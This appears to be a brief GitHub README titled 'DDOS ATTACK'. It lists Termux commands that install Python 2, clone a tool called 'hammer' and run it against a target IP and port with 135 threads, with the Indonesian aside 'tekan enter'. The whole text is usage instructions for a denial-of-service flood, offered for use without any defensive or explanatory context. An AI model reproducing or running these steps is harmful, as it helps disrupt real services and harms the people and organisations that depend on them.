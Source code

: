 # almaira
DDOS ATTACK
pkg update && pkg upgrade
pkg install python2
pkg install git
git clone https://github.com/cyweb/hammer
cd hammer
ls
python hammer.py
python hammer.py -s [IP target] -p
[Port] -t 135  ( tekan enter )

